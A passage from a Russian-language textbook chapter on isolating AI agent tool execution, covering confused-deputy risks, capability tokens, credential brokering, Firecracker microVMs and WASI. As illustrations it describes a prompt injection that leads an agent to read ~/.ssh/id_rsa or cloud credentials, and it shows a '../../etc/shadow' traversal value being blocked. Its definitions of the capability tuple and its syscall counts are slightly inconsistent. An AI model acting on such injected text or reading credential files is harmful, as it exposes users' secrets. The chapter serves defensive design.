напрямую выдает привилегированные системные вызовы хоста (`sys_execve`, `sys_ptrace`). Исполнение переходит в пространство ядра Ring 0, и изоляция хоста разрушается, хотя граница процесса пользовательского пространства не была нарушена.

Доверенная вычислительная база внутри процесса ($TCB_{\text{in-process}}$) охватывает всю среду выполнения интерпретатора и все нативно связанные библиотеки:
$$
TCB_{\text{in-process}} = 800\text{k} + 350\text{k} + 2\,500\text{k} + 600\text{k} = 4\,250\,000 \text{ lines of memory-unsafe code}
$$
Напротив, вынесение исполнения за пределы процесса, за строго опосредованную границу, сокращает подверженность привилегированным системным вызовам:
$$
\text{Attack Surface Reduction} = \frac{S_{\text{host}} - S_{\text{isolated}}}{S_{\text{host}}} = \frac{450 - 12}{450} = \frac{438}{450} \approx 97{,}33\%
$$

### Неявные полномочия при общей идентичности

Последний сбой внутрипроцессных песочниц — неявные полномочия на границе операционной системы. Когда среда выполнения агента вычисляет недоверенный код внутри процесса, этот код работает под тем же идентификатором процесса (PID), идентификатором пользователя (UID) и идентификатором группы (GID), что и само приложение-супервизор:

1. **Общая таблица файловых дескрипторов**: любой открытый файловый дескриптор, которым владеет процесс хоста (соединения с базой данных, внутренние каналы журналирования, локальные базы состояния или сетевые сокеты), доступен недоверенному коду внутри процесса через неопосредованные вызовы `sys_write`.
2. **Раскрытие виртуальной памяти**: конфиденциальные страницы памяти, включая токены API хоста, приватные ключи SSH и переменные окружения, хранящиеся в `environ`, находятся в читаемых страницах того же адресного пространства.
3. **Общая таблица системных вызовов**: недоверенный код может вызвать любой системный вызов, поддерживаемый ядром хоста. Он может зондировать интерфейсы петлевой сети (`127.0.0.1`), исследовать соседние процессы через `/proc` и регистрировать обработчики сигналов, которые перехватывают попытки завершения со стороны супервизора хоста.

(Saltzer and Kaashoek, 2009) формулируют принцип, который нарушают эти сбои: механизм изоляции должен реализовываться слоем ниже кода, которым он управляет. По той же причине принцип замыкания инвариантов ([«Принцип замыкания инвариантов»](01_introduction.md#pri-invariant-closure)) помещает механические ограничения ниже модели. Монитор внутри процесса не может обеспечить полного посредничества, описанного в [«Архитектура подсистемы инструментов»](07_tool_calling.md#sec-vol3-tool-calling-unix-analogy), потому что скрипт, который портит память или обходит граф объектов, компрометирует монитор вместе со всем остальным. Поэтому код, который запускает агент, должен жить в отдельном процессе, а обычно и за отдельным ядром. Однако отдельный процесс все равно работает от чьего-то имени, и если он работает от имени разработчика, который запустил агента, он наследует все, что этот разработчик может делать.

<a id="sec-vol3-sandboxes-least-privilege"></a>

## Возможности и учетные данные

Допустим, каркас переносит выполнение инструментов в подпроцесс, который работает под собственной учетной записью разработчика. Прочитав инъецированный текст, модель предлагает `read_file(path="/Users/alice/.ssh/id_rsa")`. Операционная система разрешает чтение, потому что `alice` владеет файлом и процесс работает от имени `alice`. Каркас стал запутанным заместителем (Hardy, 1988), привилегированной программой, которую менее привилегированная сторона (здесь — текст в контексте модели) заставила злоупотребить своими полномочиями. Списки контроля доступа проверяют, кто запускает операцию, а не кто ее просит. В агенте же просящим оказывается автор каждого токена в окне контекста.

**Запутанный заместитель**
Норм Харди описал компилятор, которому разрешено писать файл биллинга. Пользователь обманом заставил его перезаписать этот файл, указав его как выходной путь. Агентский каркас, который запускает инструменты под идентичностью разработчика, находится в положении того компилятора.

Модель возможностей (Saltzer and Schroeder, 1975; Miller, 2006) устраняет неявные полномочия. Полномочия передаются вместе с невозможной к подделке ссылкой, которая называет и ресурс, и права на него, и процесс может действовать только над тем, на что у него есть ссылка. [«Неявные и основанные на возможностях полномочия»](08_sandboxes.md#tbl-vol3-ambient-vs-capability) сопоставляет обе модели по измерениям, важным для агента.

| Измерение                   | Неявные полномочия (списки контроля доступа) | Полномочия на основе возможностей                    |
|:----------------------------|:------------------------------------------------|:-----------------------------------------------------|
| **Источник полномочий**     | Идентичность, от имени которой работает процесс | Владение невозможным к подделке токеном              |
| **Как именуются ресурсы**   | Глобальные имена, такие как пути и IP-адреса    | Дескрипторы или подписанные токены, которые указывают на ресурс |
| **По умолчанию**            | Все, к чему может прикоснуться идентичность      | Ничего без токена                                    |
| **Делегирование**           | Все права идентичности или ничего               | Любое подмножество, вплоть до одного файла или одного метода |
| **Запутанный заместитель**  | Результат по умолчанию                          | Исключается по построению                            |
| **Отзыв**                   | Глобальное изменение политики                   | Истечение срока токена или закрытие дескриптора      |

<a id="tbl-vol3-ambient-vs-capability"></a>

***Неявные и основанные на возможностях полномочия**: две модели полномочий, сравниваемые по измерениям, которые определяют, можно ли склонить процесс инструмента агента к злоупотреблению своей идентичностью.*

Возможность — это то, как выдача из [«Совместимое обнаружение инструментов»](07_tool_calling.md#sec-vol3-tool-calling-mcp) проходит ниже границы инструмента. Выдача — это решение среды выполнения, что эта сессия может вызвать этот инструмент. Возможность переносит это решение в песочницу как токен, ограниченный ресурсами, которые покрывает выдача. Драйверы песочницы проверяют его при каждом обращении, поэтому выданный `run_shell` может читать только те пути, которые называет его возможность.

### Проверка возможности

В этой книге возможность записывается как $C = (R, O, P, E)$, подписанная ключом, который есть только у среды выполнения. $R$ — множество прав (чтение, запись, исполнение, подключение), $O$ — объекты, на которые она указывает (префиксы путей, имена хостов, репозитории), $P$ — предикат, который ограничивает аргументы и стоимость, а $E$ — время истечения. Предложение $a$ называет операцию, цель и аргументы. Среда выполнения одобряет его, только если выполняется каждое условие:

$$\text{Verdict}(a, C, t) = \begin{cases} \text{APPROVE} & \text{if } \text{VerifySig}(C) \land a.\text{op} \in C.R \land a.\text{target} \sqsubseteq C.O \land \text{Cost}(a) \le C.P \land t < C.E \\ \text{REJECT} & \text{otherwise} \end{cases}$$

<a id="fig-vol3-capability-attenuation"></a>


***Проверка возможностей и ослабление полномочий**: эталонный монитор слева перехватывает каждое предложение $a$ вместе с его возможностью $C = (R, O, P, E)$ и одобряет его, только если подпись верна, операция входит в права $R$, цель лежит в объектах $O$, стоимость укладывается в предикат $P$ и срок $E$ не истек. Справа корневая выдача $C_0$ ослабляется по мере делегирования: исследовательский работник получает чтение и исходящий трафик из списка разрешенных, работник-реализатор получает запись в одно дерево исходного кода без сети, а раннер тестов получает право исполнения с отозванной записью. Ни один потомок никогда не получает право, которого нет у родителя.*

[«Проверка возможностей и ослабление полномочий»](08_sandboxes.md#fig-vol3-capability-attenuation) показывает проверку слева. Отклоненное предложение ничего не меняет, возвращает структурированное наблюдение, на которое модель может отреагировать, как того требует дисциплина формирования ошибок из [«Схемы интерфейса инструментов»](07_tool_calling.md#sec-vol3-tool-calling-schemas), и оставляет запись в журнале траектории. Сама проверка дешевая. Проверка кода аутентификации сообщения занимает микросекунды, тогда как вызов модели, который породил предложение, занимает секунды, поэтому посредничество при каждом обращении не добавляет ничего, что пользователь мог бы измерить.

При классическом управлении доступом операционная система оценивает неявные учетные данные:
$$\text{Process } (\text{euid}=1000) \xrightarrow{\texttt{open('/etc/shadow')}} [\text{Kernel ACL Check}: \text{euid} \stackrel{?}{=} 0] \implies \textbf{DENIED}$$
В неопосредованной агентской среде выполнения, однако, супервизор становится запутанным заместителем:
$$\text{Untrusted Injected Context} \xrightarrow{\text{'Read API Key'}} [\text{Supervisor } (\text{euid}=1000)] \xrightarrow{\texttt{open('~/.aws/credentials')}} \textbf{ALLOWED}$$

### Формальная проверка возможностей и монотонное ослабление

Явный токен возможности $C$ формально определяется как четверка:
$$
C = (R, O, P, E)
$$
где $R$ — канонический идентификатор ресурса (например, нормализованный путь файловой системы или URI сети), $O$ — множество разрешенных операций (например, $\{\text{READ}, \text{WRITE}\}$), $P$ — структурные ограничения параметров (такие как максимальный размер файла или границы смещения), а $E$ — временная метка эпохи, после которой возможность истекает.

Когда агент предлагает действие $P$, граница супервизора оценивает запрос по активным возможностям:
$$
\text{Verdict}(P, C, t) = \begin{cases} \text{APPROVE} & \text{if } \text{VerifySig}(C) \land P.\text{op} \in C.O \land P.\text{res} \in C.R \land t < C.E \\ \text{DENY} & \text{otherwise} \end{cases}
$$

Кроме того, когда агент делегирует задачи субагентам, полномочия должны ослабляться монотонно:
$$
C_{\text{child}} \sqsubseteq C_{\text{parent}} \iff C_{\text{child}}.O \subseteq C_{\text{parent}}.O \land C_{\text{child}}.R \subseteq C_{\text{parent}}.R \land C_{\text{child}}.E \le C_{\text{parent}}.E
$$
Дочерний контекст никогда не может получить права, превышающие те, что есть у его создателя. Любая попытка повысить привилегии вызывает немедленный сбой супервизора:

```bash
# Попытка повышения привилегий, перехваченная на границе супервизора
[2026-09-19T10:14:22.401Z] WARN  supervisor: Trajectory 0x8F9C requested CAP_SYS_ADMIN
[2026-09-19T10:14:22.402Z] ERROR supervisor: Capability check failed: target privilege exceeds parent grant
[2026-09-19T10:14:22.402Z] INFO  supervisor: Revoking execution token; terminating sandbox instance
```

### Ослабление полномочий внутри траектории

Кодирующей траектории не нужны одни и те же полномочия от первого хода до последнего. Она исследует репозиторий и читает документацию, редактирует файлы в своем рабочем пространстве, запускает тесты и в конце предлагает изменение. Каждой фазе нужно меньше, чем объединение всех четырех. Поэтому среда выполнения сужает возможность на каждой границе фазы и расширяет ее только через новую выдачу извне траектории, например через одобрение. Правило — монотонное ослабление. Производная возможность $C_j$ действительна, только если ее покрывает некоторая удерживаемая возможность $C_i$:

$$C_j \sqsubseteq C_i \iff (R_j \subseteq R_i) \land (O_j \subseteq O_i) \land (P_j \implies P_i) \land (E_j \le E_i)$$

Права и объекты могут только сужаться, предикат может только добавлять ограничения, а срок может только сдвигаться раньше. Рассмотрим траекторию, которая удерживает доступ на чтение и запись к своему репозиторию в течение пяти минут:

$$\begin{aligned}
C_{\text{edit}} &= \big(R=\{\text{read}, \text{write}\},\ O=\text{'/workspace/repo'},\ E=T_0 + 300\text{ с}\big) \\
C_{\text{test}} &= \big(R=\{\text{read}, \text{execute}\},\ O=\text{'/workspace/repo'},\ E=T_0 + 120\text{ с}\big) && [\text{rejected: execute} \notin R_{\text{edit}}] \\
C_{\text{scan}} &= \big(R=\{\text{read}\},\ O=\text{'/workspace/repo/src'},\ E=T_0 + 120\text{ с}\big) && [\text{valid: } C_{\text{scan}} \sqsubseteq C_{\text{edit}}]
\end{aligned}$$

Вторая строка отклоняется, хотя выглядит уже, потому что запрашивает право, которого родитель никогда не имел. Среда выполнения, которой нужна фаза тестирования, должна включить исполнение в выдачу, которую делает в начале, а затем снять запись, когда начнется тестирование. Снятие записи во время тестов важно не только для безопасности, но и для оценки: траектория не может редактировать тесты, по которым ее оценивают. Это одно из условий уровня свидетельств с запечатанными тестами из [«Уровни свидетельств замыкания»](01_introduction.md#sec-vol3-intro-closure-evidence). То же отношение управляет полномочиями, которые передаются между агентами, как показывает дерево субагентов справа на [«Проверка возможностей и ослабление полномочий»](08_sandboxes.md#fig-vol3-capability-attenuation), а глава 16 («Делегирование ослабленных возможностей») развивает этот случай.

<a id="chk-08-confused-deputy-defense"></a>

> **Контрольная точка: неявные полномочия и возможности**
>
> Прежде чем переходить к секретам и учетным данным, проверьте, можете ли вы ответить на следующие вопросы:
>
> - [ ] **Неявные полномочия**: почему запуск инструментов под пользовательской идентичностью разработчика превращает каркас в запутанного заместителя?
> - [ ] **Выдачи и возможности**: что добавляет возможность к выдаче на каждый вызов, принятой на границе инструмента?
> - [ ] **Ослабление**: почему фаза тестирования траектории работает с отозванной записью и почему она не может получить право исполнения, которого ей никогда не выдавали?

<a id="sec-vol3-sandboxes-credential-brokering"></a>

### Посредничество учетных данных

Возможности определяют, что песочница может назвать, но не определяют, какие секреты в ней находятся. Песочница, запущенная с токеном репозитория в переменной окружения, передает этот токен каждой строке кода, которая там выполняется, включая код, который написала внедренная инструкция. Для атаки через README было достаточно `cat` и `curl`, как только появился файл с учетными данными.

Посредничество учетных данных вообще не пускает долгоживущие секреты в песочницу. Исходящие запросы песочницы проходят через прокси исходящего трафика из раздела [«Контроль исходящего трафика»](08_sandboxes.md#sec-vol3-sandboxes-network), и прокси добавляет учетные данные только после проверки запроса по возможности траектории: назначению, методу и ресурсу. Код внутри песочницы не видит токена или видит заглушку, которая бесполезна в любом другом месте. Выгруженный дамп окружения тогда не содержит ничего, что стоило бы украсть. Посредник может также выпускать учетные данные для каждой траектории, ограниченные одним репозиторием или одним API и истекающие вместе с арендой, и вести журнал каждого использования с привязкой к траектории, которая его совершила. Цена в том, что посредник должен понимать протоколы, в которые он что-то вставляет, например заголовки авторизации в HTTPS-запросах. Инструменты, которые требуют локальный файл ключа, нуждаются либо в подписывающем агенте на стороне посредника, либо в короткоживущих учетных данных, ограниченных одной целью. Собственная идентичность облачного экземпляра требует такого же обращения. Конечная точка метаданных с локальным адресом (link-local), которая выдает учетные данные хоста любому локальному вызывающему, — это раздатчик учетных данных в пределах досягаемости песочницы, и контроль исходящего трафика обязан ее блокировать.

Возможности и посредничество ограничивают полномочия, которые выдает среда выполнения. Оба механизма предполагают, что код не может обойти проверки, атаковав ядро под ними. Выполняется ли это предположение, зависит от оболочки, в которой работает код.

<a id="sec-vol3-sandboxes-microvms"></a>

## Выбор изолирующей оболочки

Три рабочие нагрузки агентов показывают, почему ни одна оболочка не подходит для каждого вызова инструмента. Агент анализа вычисляет регулярное выражение, которое задал пользователь, на файле журнала: это несколько миллисекунд вычислений, которые в одной траектории повторяются сотни раз. Кодирующий агент устанавливает пакеты, компилирует и запускает набор тестов в траектории, которая длится сорок минут. Операционный агент запускает бинарный файл, который загрузил заказчик. Для каждого из них вопрос в том, что недоверенный код разделяет с хостом, потому что ошибка может перейти через любое общее место.

<a id="dfn-isolation-envelope"></a>

> **Определение: изолирующая оболочка**
>
> ***Изолирующая оболочка*** — это граница принудительного обеспечения вокруг кода, который выполняет действие агента. Она определяется тем, что этот код разделяет с хостом (ядро, память, файлы, сеть), и обеспечивается слоем, который код не может изменить.
>
> 1.  **Значение**: оболочка задает радиус поражения ошибки в коде или в самом механизме принудительного обеспечения, а ее стоимость запуска определяет, как часто среда выполнения может позволить себе новую оболочку.
> 2.  **Различие**: возможность ограничивает, какие ресурсы действие может назвать. Оболочка ограничивает то, до чего может дотянуться код, когда он игнорирует эти имена и атакует слой ниже.
> 3.  **Типичная ошибка**: выбор оболочки по удобству упаковки, а не по коду, который агент действительно выполнит.

**Контейнер с общим ядром** запускает недоверенный код как обычный процесс хоста, видимость которого сужена пространствами имен, ресурсы ограничены группами управления (cgroups), а системные вызовы фильтруются. Фильтрация помогает, но код все равно обращается прямо к ядру хоста, и одна эксплуатируемая ошибка ядра отдает ему хост. Агент, который компилирует и запускает произвольный нативный код, ведет себя как фаззер, направленный на этот интерфейс. Контейнеры подходят для кода, который написали среда выполнения или оператор, а не для кода, который написала модель.

**Пользовательское ядро** (Google, 2019) перехватывает системные вызовы песочницы и переписывает их в процессе с безопасной памятью, так что ядро хоста видит только небольшой фиксированный набор вызовов. Цена ложится на рабочие нагрузки, которые делают много системных вызовов. Сборки, установка пакетов и операции системы контроля версий, то есть повседневная работа кодирующих агентов, как раз относятся к таким нагрузкам. Пробелы в совместимости с полным интерфейсом Linux проявляются в тех же местах.

**microVM** выполняет код за собственным гостевым ядром, изолированным аппаратной виртуализацией. Гость, который получил права root в собственном ядре, все равно ограничен памятью, которую гипервизор ему отобразил, а то, что он может атаковать на хосте, сжимается до минимального монитора виртуальных машин и интерфейса гипервизора. Одна такая конструкция (Agache et al., 2020) оставляет лишь несколько паравиртуальных устройств и запускает сам монитор как непривилегированный процесс с пространствами имен и фильтрацией системных вызовов, так что ошибка в мониторе попадает внутрь второй оболочки. Именно отказ от устаревшей модели устройств снижает стоимость запуска с секунд обычной виртуальной машины до диапазона, в котором работают пулы ([«Пулы песочниц и сброс»](08_sandboxes.md#sec-vol3-sandboxes-pooling)).

Спектр изолирующих систем сопоставлен по поверхностям атаки на [«Спектр изоляции операционных систем для сред выполнения агентов»](08_sandboxes.md#fig-vol3-isolation-spectrum).

<a id="fig-vol3-isolation-spectrum"></a>


***Спектр изоляции операционных систем для сред выполнения агентов**: архитектурные границы и поверхности атаки на хосте для четырех парадигм изоляции: контейнеры ОС (Docker/runC), пользовательские ядра (gVisor Sentry), программная изоляция ошибок (Wasm SFI) и аппаратные microVM (Firecracker). Контейнеры открывают полное монолитное ядро хоста (около 450 системных вызовов) напрямую при переходах из Ring 3 в Ring 0, тогда как аппаратные microVM удерживают исполнение аппаратурой через выходы VT-x VMCS и предоставляют ядру хоста лишь около 35 минимальных вызовов ioctl KVM.*

### Поверхность атаки ядра: общие ядра против аппаратных ловушек

Контейнеры операционной системы опираются на системный вызов `clone(2)` с флагами, такими как `CLONE_NEWPID`, `CLONE_NEWNET`, `CLONE_NEWNS` и `CLONE_NEWUSER`, чтобы построить изолированные пространства имен. Эти пространства — логические служебные структуры внутри ядра хоста. Они не меняют фундаментальной модели исполнения кода в пользовательском пространстве. Всякий раз, когда инструмент агента внутри контейнера выдает системный вызов, процессор переходит напрямую из Ring 3 (пользовательское пространство) в Ring 0 (пространство ядра) на процессоре хоста. Диспетчер системных вызовов ядра хоста проверяет аргументы, выполняет запрошенную процедуру драйвера или управления памятью и возвращает управление процессу. Поскольку ядро хоста выполняет все посредничество программно, любая логическая уязвимость в подсистемах управления памятью, IPC или файловой системы ядра позволяет коду пользовательского пространства выполнять произвольные инструкции с полными привилегиями супервизора.

Аппаратная виртуализация меняет эту границу, используя аппаратные расширения, такие как Intel VT-x или AMD-V. Физический процессор работает в двух различных режимах: корневом режиме VMX (VMX root operation) и режиме VMX без корня (VMX non-root operation). Гипервизор хоста работает в корневом режиме VMX, а гостевое программное обеспечение, включая ядро гостевой операционной системы и его процессы в песочнице, выполняется в режиме VMX без корня. В режиме VMX без корня обычные вычислительные инструкции выполняются на родной аппаратной скорости. Однако чувствительные операции, такие как изменение управляющих регистров (`CR0`, `CR3`, `CR4`), выполнение привилегированных инструкций (`CPUID`, `INVD`, `VMXON`) или попытки программировать физические контроллеры прерываний, перехватываются непосредственно аппаратурой процессора. Когда гостевая инструкция нарушает правило выполнения, процессор приостанавливает выполнение гостя, сохраняет состояние гостя в структуре физической памяти, известной как Virtual Machine Control Structure (VMCS), и инициирует ловушку `VM-Exit` обратно к гипервизору в корневом режиме VMX.

Виртуализация памяти при аппаратно поддерживаемой виртуализации управляется двумерными таблицами страниц, которые известны как Extended Page Tables (EPT) на архитектуре Intel или Nested Page Tables (NPT) на архитектуре AMD. Когда процесс агента в песочнице переводит виртуальный адрес памяти, чтобы обратиться к переменной, блок управления памятью (MMU) процессора выполняет двухэтапный перевод:

$$\text{Guest Virtual Address (GVA)} \xrightarrow{\text{Guest Page Table}} \text{Guest Physical Address (GPA)} \xrightarrow{\text{Extended Page Table (EPT)}} \text{Host Physical Address (HPA)}$$

Гостевое ядро обладает полным административным контролем над собственными таблицами страниц и может выделять виртуальную память своим подпроцессам без вмешательства хоста. Однако гость не может изменить указатель корня EPT (`EPTP`), который настраивает и защищает от записи гипервизор в корневом режиме VMX. Даже если состязательная полезная нагрузка агента выполняет эксплойт, дающий полный контроль root над гостевым ядром Linux, она остается физически запертой внутри своего назначенного пространства GPA. Гостевое ядро не может адресовать, исследовать или портить ни один кадр физической памяти хоста ($HPA$) за пределами явных диапазонов, которые отображают структуры EPT хоста. Так устанавливаются переходы границ, которые сопоставлены в [«Механизмы переходов границ изоляции»](08_sandboxes.md#tbl-vol3-isolation-transitions).

| Слой изоляции                  | Механизм перехода               | Перехватывающая сущность | Поверхность атаки           |
|:-------------------------------|:--------------------------------|:-------------------------|:----------------------------|
| **Контейнер (runC)**           | `syscall` (Ring 3 $\to$ 0)      | Ядро Linux хоста         | $\approx 450$ системных вызовов хоста |
| **Пользовательское ядро (gVisor)** | `ptrace` или ловушка KVM    | Sentry (пользовательское пространство) | $\approx 50$ системных вызовов хоста |
| **MicroVM (Firecracker)**      | `VM-Exit` (без корня $\to$ корень) | Гипервизор KVM       | $\approx 35$ системных вызовов хоста |

<a id="tbl-vol3-isolation-transitions"></a>

***Механизмы переходов границ изоляции**: сравнение механизмов перехода и подверженности привилегиям хоста на границах изоляции.*

### Минималистичная архитектура виртуальной машины: проект Firecracker

Традиционные гипервизоры с открытым кодом, такие как QEMU, поддерживают произвольную эмуляцию оборудования, что позволяет виртуальным машинам загружать устаревшие операционные системы на любых платформах хоста. Поэтому QEMU содержит сложные программные модели устаревших периферийных устройств: контроллеры гибких дисков, интерфейсы IDE и SATA, сетевые карты Intel e1000, мосты PCI-to-PCI, звуковые карты Sound Blaster и обширные автоматы состояний Advanced Configuration and Power Interface (ACPI). Такая универсальность требует более 1,5 миллиона строк кода на C, что создает значительный след в памяти хоста и широкую поверхность атаки, уязвимую к побегам из гипервизора.

Firecracker, разработанный в Amazon Web Services (Agache et al., 2020), полностью отказывается от модели устаревшей платформы PC в пользу агрессивно минималистичного монитора виртуальных машин (VMM). Реализованный на безопасном по памяти языке Rust, Firecracker использует API ioctl на основе Linux Kernel-based Virtual Machine (`/dev/kvm`) для управления аппаратной виртуализацией. Он сводит все эмулируемые аппаратные компоненты к абсолютному минимуму, нужному для современных эфемерных рабочих нагрузок.

Firecracker полностью исключает иерархию шины PCI, таблицы ACPI и устаревшие процедуры инициализации прошивки BIOS/UEFI. Вместо эмуляции устройств PCI он предоставляет виртуальную периферию исключительно через VirtIO поверх отображения памяти ввода-вывода (VirtIO-MMIO). Регистры устройств отображаются в фиксированные непрерывные диапазоны адресов физической памяти гостя, жестко заданные в параметрах запуска ядра. Firecracker предоставляет ровно четыре типа виртуальных устройств:

1. **`virtio-block`:** интерфейс асинхронного блочного устройства, который дает гостю виртуальный диск, основанный на файле хоста или узле сырого устройства.
2. **`virtio-net`:** сетевой интерфейс, который напрямую связывает сетевой стек гостя с устройством TAP Linux на хосте.
3. **`virtio-vsock`:** интерфейс виртуального сокета без настройки, который обеспечивает двунаправленный мультиплексированный пакетный обмен между демонами пользовательского пространства хоста и сервисами гостя без сетевой маршрутизации и назначения IP-адресов.
4. **Последовательная консоль и таймер:** упрощенная последовательная консоль 8250 UART для журналирования отладки, а также эмулируемые программируемый интервальный таймер (PIT) и часы реального времени (RTC).

Поскольку Firecracker обходит устаревшие стадии BIOS и прошивки UEFI, гипервизор загружает ядро гостя по прямому пути загрузки ядра. Процесс Firecracker на хосте читает несжатый 64-битный бинарный файл ядра Linux (`vmlinux`) с диска, отображает его прямо в физическую память гостя по заранее заданному смещению и заполняет структуру данных протокола загрузки x86 64-бит (структуру `boot_params`, «нулевую страницу»). Firecracker записывает аргументы командной строки ядра прямо в память гостя, указывая расположение корневой файловой системы и фиксированные базовые адреса MMIO, и сразу вызывает ioctl `KVM_RUN`.

Граница изоляции эшелонированной защиты microVM Firecracker показана на [«Многоуровневая архитектура защиты microVM Firecracker»](08_sandboxes.md#fig-vol3-firecracker-architecture).

<a id="fig-vol3-firecracker-architecture"></a>


***Многоуровневая архитектура защиты microVM Firecracker**: модель структурного сдерживания, охватывающая супервизор хоста, границу Jailer, минималистичный VMM на Rust и аппаратно изолированный раздел гостя. Jailer применяет `chroot`, `cgroups v2` и фильтрацию `seccomp-bpf` ($\le 35$ системных вызовов хоста) до запуска VMM. Гостевая microVM выполняется в режиме VMX без корня Intel VT-x: обращения к памяти переводятся через двумерные расширенные таблицы страниц ($GPA \to HPA$), обмен с устройствами ограничен фиксированными окнами MMIO, а изменения файловой системы перехватываются во временном верхнем слое OverlayFS (UpperDir), основанном на tmpfs в ОЗУ.*

### Эшелонированная защита для нескольких арендаторов: Jailer Firecracker

Хотя Firecracker написан на безопасном по памяти Rust и взаимодействует с ядром хоста через ограниченный интерфейс KVM, надежная системная инженерия исходит из того, что любой программный компонент может отказать. Если злоумышленник найдет уязвимость в логике эмуляции virtio или неустраненный дефект в самом модуле ядра KVM, вредоносная полезная нагрузка внутри microVM может скомпрометировать процесс VMM Firecracker на хосте.

Чтобы нейтрализовать этот путь эскалации, Firecracker применяет архитектуру эшелонированной защиты с помощью вспомогательной обертки безопасности уровня хоста, известной как *Firecracker Jailer*. Бинарный файл Jailer запускается с административными привилегиями хоста (`root`) до загрузки microVM, создает вокруг контекста исполнения строгую четырехуровневую изолирующую оболочку, сбрасывает все привилегии хоста и запускает процесс VMM Firecracker через `execve(2)`. Он следует многоэтапной последовательности понижения привилегий из [«Последовательное понижение привилегий и конвейер сдерживания Jailer Firecracker»](08_sandboxes.md#tbl-vol3-jailer-pipeline).

| Этап конвейера             | Целевая подсистема | Примитивы ядра и системные вызовы                                   | Контекст исполнения                   | Установленный инвариант сдерживания                                  |
|:---------------------------|:-------------------|:--------------------------------------------------------------------|:--------------------------------------|:---------------------------------------------------------------------|
| **1. Загрузка от root**    | Процесс хоста      | `clone()`, выделение PID                                            | Привилегированный root хоста (`UID=0, GID=0`) | Выделяет метаданные экземпляра и рабочие каталоги.                   |
| **2. Изоляция пространств имен** | Пространства имен Linux | `unshare(CLONE_NEWNS + CLONE_NEWPID + CLONE_NEWNET + CLONE_NEWIPC)` | Изолированные границы пространств имен | Изолирует монтирования VFS, иерархию PID, сетевые маршруты и очереди IPC. |
| **3. Chroot файловой системы** | Монтирования VFS | `mount(--bind)`, `chroot(jail_dir)`, `chdir("/")`                   | Ограниченный корневой каталог         | Лишает доступа к корню хоста; открывает только бинарный файл ядра и сокет. |
| **4. Квоты cgroup**        | `cgroups v2`       | Запись в `cpu.max`, `memory.max`, `pids.max = 2 + N_vcpus`          | Срез с ограниченными ресурсами        | Ограничивает потребление CPU, жестко ограничивает ОЗУ и блокирует fork-бомбы. |
| **5. Понижение привилегий** | Учетные данные    | `setresgid(jail_gid)`, `setresuid(jail_uid)`, `capng_clear()`       | Непривилегированный контекст (`UID > 10000`) | Искореняет все неявные возможности POSIX (`CAP_SYS_ADMIN` и т. д.). |
| **6. Блокировка системных вызовов** | `seccomp-bpf` | `prctl(PR_SET_SECCOMP, SECCOMP_MODE_FILTER, ...)`                   | Укрепленная граница ядра              | Вводит запрет по умолчанию с разрешенным списком из ~35 системных вызовов; `SIGSYS` при нарушении. |
| **7. Замена процесса**     | Образ исполнения   | `execve("/usr/bin/firecracker", argv, envp)`                        | Полностью запертый VMM microVM        | Запускает VMM без неявных полномочий над файловой системой или сетью хоста. |

<a id="tbl-vol3-jailer-pipeline"></a>

***Последовательное понижение привилегий и конвейер сдерживания Jailer Firecracker**: семиэтапная последовательность укрепления, выполняемая до инициализации microVM.*

<a id="sec-vol3-sandboxes-wasm"></a>

### Песочницы байт-кода и опосредование возможностей

**Песочница байт-кода**, такая как WebAssembly (Haas et al., 2017), ограничивает код ограниченной линейной памятью, которую среда выполнения проверяет до запуска, и у кода вообще нет инструкции системного вызова. Линейная память выделяется как непрерывный массив байтов без псевдонимов размером до 4 ГБ в Wasm32. Каждая инструкция загрузки и сохранения работает с беззнаковыми 32-битными смещениями, отсчитываемыми от нуля относительно этого базового указателя. Во время компиляции или трансляции заранее (AOT) движок WebAssembly вставляет аппаратные или программные проверки границ на каждое разыменование памяти либо окружает выделение в 4 ГБ защитными страницами виртуальной памяти, которые не отображены. Любая попытка кода гостя разыменовать указатель за пределами границ немедленно вызывает аппаратный `SIGSEGV`, который перехватывает среда выполнения хоста. Исполнение прерывается до того, как чужую память можно исследовать или испортить.

Чтобы взаимодействовать с внешним миром, модуль WebAssembly опирается на WebAssembly System Interface (WASI). WASI стандартизирует импорт из хоста через чисто основанную на возможностях модель безопасности, которая обеспечивает нулевые неявные полномочия на границе модуля. Хост открывает конкретные дескрипторы каталогов и внедряет их в таблицу файловых дескрипторов модуля при инстанцировании. Гость не может обратиться ни к одному пути файловой системы за пределами этих дескрипторов возможностей, что проверено в [«Последовательность разрешения шлюза вызова возможностей WebAssembly WASI»](08_sandboxes.md#tbl-vol3-wasi-callgate).

| Шаг вызова                      | Вызов модуля гостя                             | Проверки на стороне среды выполнения хоста                                                               | Действие ядра хоста                                    | Возвращаемое значение гостю          |
|:--------------------------------|:-----------------------------------------------|:---------------------------------------------------------------------------------------------------------|:-------------------------------------------------------|:-------------------------------------|
| **1. Авторизованный доступ к файлу** | `path_open(dir_fd=3, path="data.json")`   | Проверяет, что `dir_fd=3` — открытый дескриптор каталога; проверяет, что канонический путь остается внутри корня `dir_fd`. | Создает ограниченный дочерний файловый дескриптор в ядре хоста. | `Ok(file_fd=4)` (невозможный к подделке дескриптор) |
| **2. Попытка выхода через обход пути** | `path_open(dir_fd=3, path="../../etc/shadow")` | Разрешает путь относительно корня каталога; обнаруживает попытку выйти за корень песочницы.     | Блокирует вызов VFS хоста; записывает событие нарушения возможности в журнал. | `Err(WASI_ERRNO_NOTCAPABLE)`         |

<a id="tbl-vol3-wasi-callgate"></a>

***Последовательность разрешения шлюза вызова возможностей WebAssembly WASI**: пошаговая проверка запросов файловой системы модуля гостя по заранее открытым возможностям каталогов.*

```bash
# Ловушка полного посредничества WASI на хосте
[2026-09-19T10:18:04.210Z] WARN  wasm_runtime: Module invoked fd_readdir(fd=3, cookie=0) -> OK
[2026-09-19T10:18:04.214Z] ERROR wasm_runtime: Module invoked path_open(fd=3, path="../../etc/shadow", flags=0)
[2026-09-19T10:18:04.215Z] SECURITY_FAULT wasm_runtime: Path traversal escape detected; trapped with WASI_ERRNO_NOTCAPABLE
```

<a id="sec-vol3-sandboxes-envelope-choice"></a>

### Соотнесение оболочки с действием

[«Изолирующие оболочки для кода агента»](08_sandboxes.md#tbl-vol3-isolation-taxonomy) суммирует четыре оболочки. Типичные измерения времени запуска и памяти для текущих реализаций приведены в таблице «Типичные затраты на оболочки» приложения А; именно порядки величин определяют выбор.

| Оболочка                    | Что недоверенный код разделяет с хостом              | Какой код может выполнять                              | Время запуска                | Подходит для                                               |
|:----------------------------|:-----------------------------------------------------|:-------------------------------------------------------|:-----------------------------|:-----------------------------------------------------------|
